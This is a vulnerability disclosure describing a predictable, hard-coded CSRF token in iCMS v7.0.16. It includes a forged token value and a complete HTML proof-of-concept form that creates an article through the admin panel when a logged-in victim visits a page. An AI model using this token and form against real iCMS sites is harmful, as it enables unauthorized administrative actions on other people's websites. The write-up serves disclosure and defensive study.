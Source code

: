 ## Global CSRF Vulnerability Caused by csrf_token can be predicted in iCMS v7.0.16

The "CSRF_TOKEN"  param has been set when I try to find some CSRF vuln in the iCMS v7.0.16, but it is finally turned out to be a "fake CSRF_TOKEN" after I audit source code. we can calculate the csrf_token by the "iPHP_KEY" hard coded in the source code.

### location

The calculation logic of csrf_token is located in：

![](pictures/cve9.png)

it is based the value of "key" in the line 385, and the "key" is calculated by the value of "iPHP_KEY", the "iPHP_KEY" is hard coded in the source code. like：

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve10.png)

And then we can see the "CSRF_TOKEN" check logic in here:

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve11.png)

if the time is in the scope, and the values are equal, the check will be fine. So the problem is the "csrf_token" is hard coded in the source code, but not binding with the Identity，and the default expiration time("iPHP_COOKIE_TIME") is too long (as the picture show is 31536000 seconds). if someone builds a website with default configuration, the csrf_token can be fully forged.
 
### proof

we can just use the "authcode" function to create a "csrf_token", here is : 9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q

and then we make a poc for csrf to add an article ,like:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q" method="POST">
      <input type="hidden" name="&#95;cid" value="" />
      <input type="hidden" name="&#95;scid" value="" />
      <input type="hidden" name="&#95;tags" value="" />
      <input type="hidden" name="&#95;pid" value="" />
      <input type="hidden" name="&#95;data&#95;id" value="" />
      <input type="hidden" name="article&#95;id" value="0" />
      <input type="hidden" name="userid" value="1" />
      <input type="hidden" name="ucid" value="" />
      <input type="hidden" name="postype" value="1" />
      <input type="hidden" name="REFERER" value="http&#58;&#47;&#47;192&#46;168&#46;64&#46;2&#47;iCMS&#45;7&#46;0&#46;16&#47;admincp&#46;php&#63;app&#61;article&amp;do&#61;trash" />
      <input type="hidden" name="chapter" value="" />
      <input type="hidden" name="markdown" value="0" />
      <input type="hidden" name="cid" value="4" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="scid&#91;&#93;" value="4" />
      <input type="hidden" name="pid&#91;&#93;" value="0" />
      <input type="hidden" name="title" value="fasdhfas" />
      <input type="hidden" name="stitle" value="fasdfa" />
      <input type="hidden" name="source" value="fads" />
      <input type="hidden" name="author" value="fs" />
      <input type="hidden" name="editor" value="iCMS" />
      <input type="hidden" name="pic" value="" />
      <input type="hidden" name="mpic" value="" />
      <input type="hidden" name="spic" value="" />
      <input type="hidden" name="keywords" value="fasdf" />
      <input type="hidden" name="tags" value="" />
      <input type="hidden" name="description" value="dfasdfasd" />
      <input type="hidden" name="data&#95;id" value="" />
      <input type="hidden" name="subtitle" value="fasd" />
      <input type="hidden" name="autopic" value="1" />
      <input type="hidden" name="body&#91;&#93;" value="&lt;p&gt;fadsfasd&lt;&#47;p&gt;" />
      <input type="hidden" name="pubdate" value="2021&#45;01&#45;24&#32;16&#58;05&#58;50" />
      <input type="hidden" name="sortnum" value="1611475550" />
      <input type="hidden" name="weight" value="1611475550" />
      <input type="hidden" name="hits" value="0" />
      <input type="hidden" name="hits&#95;today" value="0" />
      <input type="hidden" name="hits&#95;yday" value="0" />
      <input type="hidden" name="hits&#95;week" value="0" />
      <input type="hidden" name="hits&#95;month" value="0" />
      <input type="hidden" name="favorite" value="0" />
      <input type="hidden" name="comments" value="0" />
      <input type="hidden" name="good" value="0" />
      <input type="hidden" name="bad" value="0" />
      <input type="hidden" name="tpl" value="" />
      <input type="hidden" name="clink" value="" />
      <input type="hidden" name="url" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

and take this in my vps website , the article will be created when the user click the website in my vps, like :

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve12.png)

This is a global problem, the "csrf_token" is not fully protective here and many operations will involve csrf vulnerabilities .


